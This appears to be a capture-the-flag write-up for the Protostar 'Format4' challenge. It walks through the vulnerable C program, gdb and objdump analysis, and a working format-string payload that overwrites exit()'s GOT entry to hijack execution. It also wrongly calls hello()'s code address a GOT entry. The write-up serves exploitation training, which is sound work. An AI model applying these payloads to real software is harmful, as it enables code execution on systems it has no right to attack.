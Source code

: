 ## Protostar-Format4 Solution

### 1. Introduction

This is a poc solution for the "Format4" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look.

Source:
[https://web.archive.org/web/20140811171216/http://exploit-exercises.com/protostar/format4](https://web.archive.org/web/20140811171216/http://exploit-exercises.com/protostar/format4) 
 
**Hints:**
* format4 looks at one method of redirecting execution in a process.
* *objdump -TR is your friend

#### 1.1 Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```

#### 1.2 Compilation

Terminal command to compile with debug symbols + without pie + Disable canaries + Disable ASLR + for x86:

```js
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'

gcc -o format_4 format_4.c -z execstack -fno-stack-protector -m32 -no-pie -g
```

### 2. Solution 

#### 2.1 Short Analysis with gdb-peda

Goal is to print out the following message by exploiting the format string vulnerability.

```nasm
gdb-peda$ disas hello
Dump of assembler code for function hello:
   0x080484fd <+0>:	push   ebp
   0x080484fe <+1>:	mov    ebp,esp
   0x08048500 <+3>:	sub    esp,0x18
   0x08048503 <+6>:	mov    DWORD PTR [esp],0x8048600
   0x0804850a <+13>:	call   0x80483c0 <puts@plt>
   0x0804850f <+18>:	mov    DWORD PTR [esp],0x1
   0x08048516 <+25>:	call   0x80483a0 <_exit@plt>
End of assembler dump.

gdb-peda$ x/s 0x8048600
0x8048600:	"code execution redirected! you win"
```

If we can overwrite the entry of the exit() function in the GOT (Global Offset Table) then we can manipulate program flow therefore hello() function would be called.

```
$ objdump -t ./format_4 | grep hello
080484fd g     F .text	0000001e              hello

$ objdump -TR ./format_4 | grep exit
00000000      DF *UND*	00000000  GLIBC_2.0   _exit
00000000      DF *UND*	00000000  GLIBC_2.0   exit
0804a010 R_386_JUMP_SLOT   _exit
0804a020 R_386_JUMP_SLOT   exit
```

As seen above,
exit() function has an entry in the GOT at **0804a020**.
hello() function has an entry in the GOT at **080484fd**.

#### 2.2 Quick Solution

Let's start by finding the right offset of our input parameter of printf() on the stack by stack popping to manipulate internal stack pointer.


```nasm
gdb-peda$ disas vuln
Dump of assembler code for function vuln:
   0x0804851b <+0>:	push   ebp
   0x0804851c <+1>:	mov    ebp,esp
   0x0804851e <+3>:	sub    esp,0x218
   0x08048524 <+9>:	mov    eax,ds:0x804a030
   0x08048529 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x0804852d <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x08048535 <+26>:	lea    eax,[ebp-0x208]
   0x0804853b <+32>:	mov    DWORD PTR [esp],eax
   0x0804853e <+35>:	call   0x80483b0 <fgets@plt>
   0x08048543 <+40>:	lea    eax,[ebp-0x208]
   0x08048549 <+46>:	mov    DWORD PTR [esp],eax
   0x0804854c <+49>:	call   0x8048390 <printf@plt>
   0x08048551 <+54>:	mov    DWORD PTR [esp],0x1
   0x08048558 <+61>:	call   0x80483e0 <exit@plt>
End of assembler dump.
gdb-peda$ b * 0x0804854c
Breakpoint 1 at 0x804854c: file format_4.c, line 20.
gdb-peda$ r
Starting program: format_4 
AAAA 
...Trim...
[-------------------------------------code-------------------------------------]
   0x804853e <vuln+35>:	call   0x80483b0 <fgets@plt>
   0x8048543 <vuln+40>:	lea    eax,[ebp-0x208]
   0x8048549 <vuln+46>:	mov    DWORD PTR [esp],eax
=> 0x804854c <vuln+49>:	call   0x8048390 <printf@plt>
   0x8048551 <vuln+54>:	mov    DWORD PTR [esp],0x1
...Trim...

gdb-peda$ x $esp
0xffffcef0:	0xffffcf00

gdb-peda$ p/d (0xffffcf00-0xffffcef0)/4
$1 = 4
```
As seen above, the offset is 4 bytes.

It's possible to validate by select 4th argument via **$** (direct access) as well.

```
$ ./format_4
AAAA%4$x
AAAA41414141                     
```

The following payload is created by using short writes method as explained in format-3 solution.

Target address: **0804a020**
Target value: **080484fd**

Let's split **080484fd** into **0x84fd** and **0x0804**.

0x0804 in decimal: **2052** 
0x84fd in decimal: **34045**

So we will write the following:

1. **34045** to **0804a020**
2. **2052** to **0804a022**

Payload calculation in-short: 
```
"\x22\xa0\x04\x08" + "\x20\xa0\x04\x08" + "%(2052-8)d" + "%4\$hn" + "%(34045-2052)d" + "%5\$hn"
```

It's possible to validate via gdb as shown on format-3 solution.

#### 2.3 Final PoC

```
$ python -c 'print "\x22\xa0\x04\x08\x20\xa0\x04\x08%2044d%4$hn%31993d%5$hn"' | ./format_4
"� �                                                                     ...TRIM...
512
...TRIM...
-134493152
code execution redirected! you win
```

**Note:** If first half the addreses are same then last 2 bytes would be enough to solve the challenge.
